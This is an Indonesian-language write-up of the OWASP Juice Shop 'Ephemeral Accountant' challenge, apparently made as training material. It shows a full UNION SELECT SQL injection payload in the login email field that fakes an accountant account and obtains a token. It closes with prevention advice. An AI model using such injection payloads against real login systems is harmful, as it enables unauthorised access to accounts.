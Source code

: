 # Juice-Shop Write-up: Ephemeral Accountant

Kategori: SQL Injection  
Tingkat Kesulitan: ⭐⭐⭐⭐ (4/6)  

Deskripsi: Mengeksploitasi kerentanan **SQL Injection** pada fitur login untuk membuat akun sementara (`acc0unt4nt@juice-sh.op`) tanpa benar-benar menyimpannya ke database.

## Link Resource
https://demo.owasp-juice.shop/#/

## Jawaban + Bukti
### a. Step-by-step
1. **Analisis Login**  
   - Endpoint `/rest/user/login` menerima request `POST` dengan payload email & password.  
   - Contoh normal:  
     ```http
     POST /rest/user/login
     {
       "email": "user@example.com",
       "password": "password123"
     }
     ```

2. **Menyusun Payload SQLi**  
   - Tujuan: membuat row sementara dengan data user baru.  
   - Payload disusun dengan `UNION SELECT` agar aplikasi mengira ada akun valid.  

   ```http
   POST /rest/user/login
   {
     "email": "' UNION SELECT * FROM (SELECT 20 AS id, 'acc0unt4nt@juice-sh.op' AS email, 'test1234' AS password, 'accounting' AS role, '123' AS deluxeToken, '/assets/public/images/uploads/default.svg' AS profileImage, 1 AS isActive, 12983283 AS createdAt, 133424 AS updatedAt, NULL AS deletedAt) AS tmp WHERE '1'='1';--",
     "password": "test1234"
   }

3. **Eksekusi & Hasil**
- Server merespon dengan JWT token, menandakan login berhasil.
- User acc0unt4nt@juice-sh.op dianggap ada hanya selama query berjalan.

### b. Catatan Hasil Percobaan

**Status:** Berhasil login sebagai user sementara.

#### Alasan Keberhasilan
- Query tidak divalidasi.
- UNION SELECT menambahkan row palsu.
- Aplikasi hanya mengecek hasil query, bukan data permanen di database.

#### Refleksi
- **Risiko:** Penyerang dapat membuat akun fiktif dan login tanpa registrasi.
- **Pencegahan:**  
  - Gunakan prepared statements / parameterized queries.
  - Validasi bahwa user benar-benar ada di database.
  - Sanitasi input agar tidak bisa dieksekusi sebagai kode SQL.

### c. Dokumentasi
<img width="1919" height="997" alt="image" src="https://github.com/user-attachments/assets/fb41939d-328c-4983-b4f2-02516b42c4e3" />

<img width="1919" height="995" alt="image" src="https://github.com/user-attachments/assets/be620229-906e-4a59-8dc5-b8b9d9966c7d" />


